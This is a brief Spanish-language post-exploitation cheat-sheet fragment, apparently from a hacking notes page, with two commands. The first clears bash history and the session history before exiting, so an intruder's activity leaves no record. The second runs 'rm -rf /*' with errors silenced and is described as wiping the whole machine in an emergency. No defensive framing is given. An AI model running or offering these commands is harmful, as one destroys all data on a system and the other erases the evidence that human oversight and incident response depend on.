 ## POST-EXPLOTACION

Cierra la sesión y borra todo el historial de comandos del bash history sin registrar exit al salir

``echo "" > ~/.bash_history && history -c && exit`` 

Borra toda la maquina, hacer solo en caso de emergencia

``(rm -rf /*) 2>/dev/null``

